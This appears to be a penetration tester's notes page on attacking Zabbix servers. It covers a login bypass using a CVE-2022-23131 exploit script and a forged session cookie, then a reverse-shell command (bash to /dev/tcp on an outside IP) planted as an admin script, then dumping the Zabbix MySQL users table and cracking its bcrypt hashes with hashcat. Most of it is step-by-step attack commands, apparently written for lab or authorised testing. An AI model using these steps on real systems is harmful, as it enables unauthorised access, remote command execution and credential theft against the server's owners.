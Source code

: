 # Zabbix

<details>

<summary>V5.4 Bypass Login</summary>

### Checking if Zabbix is v5.4:

* Hover around "Help" button --> will refer to the respective zabbix version documentation

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Use [https://github.com/Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

```
python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin
```

* If error "Failed to resolve \<host>" --> have to add entry to `/etc/hosts`

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Uncomment lines 60 and 62 to show the session cookies

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Rerun the command `python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin`

* Copy the zbx\_signed\_session cookie and add it to the cookies for the webpage

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Press the SSO login option --> successful login

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>



</details>

<details>

<summary>Reverse Shell From Zabbix</summary>

Go to "Administration" --> "Scripts" --> "Create Script"

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* Name: revshell
* Scope: Manual host action
* Type: Script
* Execute on: Zabbix server (proxy)
* Commands: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/80 0>&1'`
* Add

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Monitoring --> Hosts --> Zabbix server --> revshell

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

nc -lvp 80

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Zabbix Server Configurations</summary>

`cat /usr/local/etc/zabbix_server.conf` & removing commented out lines:

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### Connecting to MySQL DB for zabbix

```
mysql -h 127.0.0.1 -P 3306 -u zabbix  -p'rD...' zabbix
show databases;
use zabbix;
show tables;
select * from users;
```

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Cracking Zabbix's bcrypt hash:

```bash
hashcat -m 3200 hash.txt rockyou.txt
```

</details>
